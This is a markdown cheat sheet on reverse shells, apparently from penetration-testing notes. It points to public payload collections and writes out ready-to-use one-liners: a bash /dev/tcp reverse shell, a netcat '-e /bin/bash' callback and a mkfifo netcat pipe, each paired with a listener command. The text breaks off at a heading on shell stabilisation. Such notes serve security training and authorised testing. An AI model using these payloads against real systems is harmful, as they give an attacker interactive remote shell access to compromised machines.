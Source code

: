 # Reverse Shells
The target is forced to execute code that connects back to your computer
i.e. local listens, target connects

Get shells from 
- [revshells.com](https://revshells.com)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [PentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
- On Kali go to `/usr/share/webshells`

Get local ip address when on VPN
```
ip a s tun0
```

listen on local host
```
nc -lnvp <port>
```

## Very simple reverse shell
```
bash -i >& /dev/tcp/<local ip>/<local port> 0>&1
```
then local machine
```
nc -nlvp <port>
```

## Netcat
Set up listener
```
sudo nc -lvnp 443
```

On the target
```
nc <Local_IP> <Port> -e /bin/bash
```

To create a listener for a reverse shell (above might not be available in all nc distros):
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

## Shell stabilisation
These work for both reverse and bind shells

### Python
Requires python installed on the target box.  Linux usually has this by default
